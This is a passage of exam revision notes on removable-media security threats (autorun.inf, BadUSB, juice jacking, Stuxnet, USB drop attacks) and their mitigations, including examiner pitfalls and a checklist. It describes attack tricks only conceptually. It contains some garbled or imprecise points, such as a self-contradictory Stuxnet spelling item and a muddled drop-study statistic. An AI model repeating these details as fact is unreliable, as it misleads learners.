| **OS-Specific?** | **Windows only** (autorun is Windows feature) | Cross-platform (any OS that supports USB HID) | Cross-platform |
| **Primary Mitigation** | Disable autorun via GPO; AV scanning of media | USB device whitelisting; firmware integrity checks | Use **charge-only cables** (no data lines); USB data blockers ("USB condoms") |
| **Real-World Example** | Conficker (2008) worm | Karsten Nohl's 2014 research disclosure | Demonstrated at DEF CON 2011 |
| **Severity (CVSS-style)** | Medium | High | Medium-High |

> *Valuation Key:* Each row in the table — *0.5 Mark*; overall comparison clarity — *1 Mark*; using technical terms like "HID spoofing" and "charge-only cable" — *1 Mark*.

---

## KTU Examiner's Valuation Warning / Pitfall Callout

> [!WARNING]
> **Common Mistakes That Cost Students Marks in Removable Media Questions:**
>
> 1. **Forgetting to mention `autorun.inf` is a Windows-only feature.** Linux and macOS do not parse it the same way. Many students incorrectly state that all OSes are vulnerable. *[Loss: 1–2 Marks]*
> 2. **Confusing "autorun" with "autoplay."** Autoplay presents a UI prompt; autorun *executes automatically* without prompting. The two are different. *[Loss: 1 Mark]*
> 3. **Not knowing that BadUSB operates below the file system.** Stating "antivirus can detect BadUSB" is a critical error. *[Loss: 1–2 Marks]*
> 4. **Failing to mention air-gap vulnerabilities in Stuxnet answers.** Stuxnet's significance is precisely that it breached an air-gapped network. *[Loss: 1 Mark]*
> 5. **Ignoring the four-indicator heuristic in practical answers.** When asked about USB drop mitigation, students often list only "antivirus" and forget DLP, device control, and policy layers. *[Loss: 1–2 Marks]*
> 6. **Not drawing the `autorun.inf` block diagram or attack flow.** KTU examiners award marks for clear flow diagrams in 14-mark questions. *[Loss: 1–2 Marks]*
> 7. **Spelling "Stuxnet" as "Stuxnet" variations** like "Stuxnett" or confusing it with "Stuxon." This signals poor preparation. *[Loss: 0 Marks, but creates negative impression]*

---

## Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **High-Density Rapid-Revision Checklist — Module 3: Removable Media**

- **Definition:** Removable media = portable storage that can be attached/detached (USB, CD, SD, external HDD/SSD).
- **Primary Threat:** Delivery mechanism for malware that bypasses network firewalls by crossing the air-gap boundary.
- **Autorun Mechanism:** `autorun.inf` in root + `open=` directive = automatic execution on Windows.
- **Windows-Specific:** `autorun.inf` is parsed only by Windows; Linux/macOS ignore it.
- **File Extension Trick:** Windows hides `.exe` extension, so `resume.pdf.exe` displays as `resume.pdf`.
- **BadUSB:** Firmware-level HID keyboard emulation; invisible to file-based AV.
- **Stuxnet (2010):** Canonical case study; air-gapped Iranian Natanz facility; LNK exploit (CVE-2010-2568); Siemens PLC sabotage; rotor frequency altered to $1,414 \text{ Hz}$.
- **USB Drop Attack:** Social engineering; ~45–98% of dropped USBs are plugged in (Univ. of Illinois study).
- **Juice Jacking:** Malicious charging port; mitigated by **charge-only cables** and **USB data blockers**.
- **Key Countermeasures (Defense-in-Depth):**
  1. Disable autorun via GPO (`NoDriveTypeAutoRun = 0xFF`).
  2. USB device whitelisting / device control.
  3. Endpoint DLP for write-blocking sensitive data.
  4. Endpoint antivirus with USB scanning.
  5. Security awareness training for USB drop attacks.
  6. Physical port locks in sensitive environments.
  7. Acceptable Use Policy (AUP) and compliance with NIST SP 800-53 **MP-7**.
- **NIST Control:** **MP-7 (Media Use)** — authoritative reference for removable media policy in federal systems.
- **Boot Sector Virus:** Infects MBR/VBR; runs pre-OS at **ring-0** privilege.
- **USB Killer:** Hardware device that sends $-220V$ to data pins, physically destroying the host motherboard.
- **Memorable Acronym:** **"A-A-D-D-P"** — Autorun, Air-gap breach, Drop attack, Data exfiltration, Protection via DLP.

<!-- SECTION_5_END -->
